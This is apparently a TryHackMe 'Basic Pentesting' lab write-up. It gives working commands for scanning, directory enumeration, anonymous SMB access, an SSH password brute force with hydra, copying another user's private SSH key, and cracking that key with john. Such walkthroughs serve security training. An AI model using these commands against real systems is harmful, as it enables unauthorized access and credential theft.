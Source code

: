 # Basic Pentesting | TryHackMe
1. First, nmap to the target.
`nmap -sV 10.10.150.97`
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 13:17 JST
Nmap scan report for 10.10.150.97
Host is up (0.30s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3390/tcp filtered dsc
3517/tcp filtered 802-11-iapp
8009/tcp open     ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open     http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 300.35 seconds
```
2. http is available and I'm going to see it.
<img src="attach:./pictures/basic_pentesting_80.png">
I didn't find anything in particular.
3. I'll try gobuster.
`gobuster dir -w common.txt -u http://10.10.150.97`
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.150.97
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/n22003/Work/Wordlist/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/11 13:34:44 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.hta                 (Status: 403) [Size: 291]
/.htpasswd            (Status: 403) [Size: 296]
/development          (Status: 301) [Size: 318] [--> http://10.10.150.97/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 300]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/05/11 13:37:09 Finished
===============================================================
```
4. I'll take a look at it since the `/development` is suspicious.
Found dev.txt and j.txt.
According to dev.txt, smb is free. (I knew this from nmap earlier...)
5. Take a look at the SMB
```
        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BASIC2
```
Check Anonymous.
6. I'll try to connect it to Anonymous.
`smbclient \\\\10.10.150.97\\Anonymous`
No passwords.
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Apr 20 02:31:20 2018
  ..                                  D        0  Fri Apr 20 02:13:06 2018
  staff.txt                           N      173  Fri Apr 20 02:29:55 2018

                14318640 blocks of size 1024. 11094400 blocks available
```
Take a look at staff.txt
`more staff.txt`
I found a user named Jan.
7. I'm going to try to do a total ssh hit on Jan with hydra.
`hydra -l jan -P rockyou.txt 10.10.150.97 ssh`
1.Now that I have jan's password, I'll try connecting via ssh.
There was nothing special in jan's directory.
However, there were some in kay's directory, so I tried ssh connection with kay.
8. Get kay key.
I'll try to see if I can get the kay key with scp.
`scp jan@10.10.150.97:/home/kay/.ssh/id_rsa .`
The password is jan's.
I got it and I'm going to feed it to john.
`ssh2john id_rsa > hash`
Analyze with john.
`john --wordlist=rockyou.txt hash`
Now that I know kay's password, I change id_rsa's permissions to 600 and ssh.
`chmod 600 id_rsa`
`ssh -i id_rsa kay@10.10.150.97`
The password is the one I just parsed.
If you can log in, check pass.bak and that's it.
